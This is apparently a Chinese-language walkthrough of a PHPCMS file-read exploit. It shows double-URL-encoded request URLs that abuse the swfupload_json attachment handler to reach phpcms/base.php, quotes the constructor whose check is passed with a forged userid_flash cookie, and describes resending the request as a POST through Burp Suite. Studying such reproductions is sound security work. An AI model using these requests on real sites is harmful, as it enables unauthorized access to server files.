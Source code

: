 ```
filename 我們沒設置，我們aid 也是亂填1 最後主要靠 src設置
http://localhost/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=

&i=1&m=1&modelid=1&f=phpcms/base.ph%253Ep&d=1&catid=1



不過這樣是不會成功的，你直接丟上去 swfupload_json 會誤以為， payload 的 i  ,m  ,modelid ...都是給這個swfupload_json的，
所要要urlencode 讓他成為src變數的數據。

%26i%3D1%26m%3D1%26modelid%3D1%26f%3Dphpcms%2Fbase.ph%25253Ep%26d%3D1%26catid%3D1%0A


最後合並
http://localhost//index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26i%3D1%26m%3D1%26modelid%3D1%26f%3Dphpcms%2Fbase.ph%25253Ep%26d%3D1%26catid%3D1%0A

```

這邊需要注意，想要走到 swfupload_json 還需要通過幾個點，這個物件的 __construct 需要有一個 

```
//先解碼 然後送給  $this->userid
sys_auth($_POST['userid_flash'],'DECODE') 


//才能通過這個條件
if(empty($this->userid)){
    showmessage(L('please_login','','member'));
}

```

phpcms/modules/attachment/attachments.php
```
function __construct() {
    pc_base::load_app_func('global');
    $this->upload_url = pc_base::load_config('system','upload_url');
    $this->upload_path = pc_base::load_config('system','upload_path');		
    $this->imgext = array('jpg','gif','png','bmp','jpeg');
    $this->userid = $_SESSION['userid'] ? $_SESSION['userid'] : (param::get_cookie('_userid') ? param::get_cookie('_userid') : sys_auth($_POST['userid_flash'],'DECODE'));
    $this->isadmin = $this->admin_username = $_SESSION['roleid'] ? 1 : 0;
    $this->groupid = param::get_cookie('_groupid') ? param::get_cookie('_groupid') : 8;
    //判断是否登录
    if(empty($this->userid)){
        showmessage(L('please_login','','member'));
    }
}
```


所以我們在使用這 payload 時需要burpsuit 改成POST 
```
http://localhost//index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26i%3D1%26m%3D1%26modelid%3D1%26f%3Dphpcms%2Fbase.ph%25253Ep%26d%3D1%26catid%3D1%0A


加上 POST 數據
//這個就是我們一開頭拿到的cookie
userid_flash=8fd5A2tsnl0lQ3wc3-IGFybAOxdmDySOEzWntfgG


小坑: post 加上(不加會失敗)
Content-Type: application/x-www-form-urlencoded
```
